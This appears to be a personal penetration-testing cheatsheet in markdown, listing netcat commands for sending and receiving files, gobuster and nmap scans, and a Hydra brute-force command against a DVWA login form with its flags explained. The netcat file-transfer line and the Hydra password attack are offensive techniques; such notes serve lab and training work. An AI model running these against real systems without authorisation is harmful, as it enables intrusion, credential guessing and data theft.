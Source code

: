 # Cheatsheet 

## Sending And Receiving Files With Netcat

###Sending
`nc DESTINATIONSERVER PORT < FILENAME`

##gobuster
sudo gobuster -w /usr/share/wordlist/dirbuster/directory-list-lowercase-2.3-medium.txt http://<ip> -x html,php,txt,git -s 200,204,301,302,307,403,401
 ##nmap
#all scan`sudo nmap -p- -sV -T5 -sC -v <ip>`
#ping sweep `sudo nmap -pn <ip>`

###Recieving
`nc -l -p PORT > FILE`


## Change The Time

`date -s "DD MMM YYYY HH:MM:SS"`


## GIT

```bash
git init in your desired directory
git add (your file)
git commit -m (your message)
git push
```

## Hydra Basic Stuff

```bash
hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```
-l indicates a single username (use -L for a username list)  
-P indicates use the following password list  
http-post-form indicates the type of form  
/dvwa/login-php is the login page URL  
username is the form field where the username is entered  
^USER^ tells Hydra to use the username or list in the field  
password is the form field where the password is entered (it may be passwd, pass, etc.)  
^PASS^ tells Hydra to use the password list supplied  
Login indicates to Hydra the login failed message  
Login failed is the login failure message that the form returned
-V is for verbose output showing every attempt
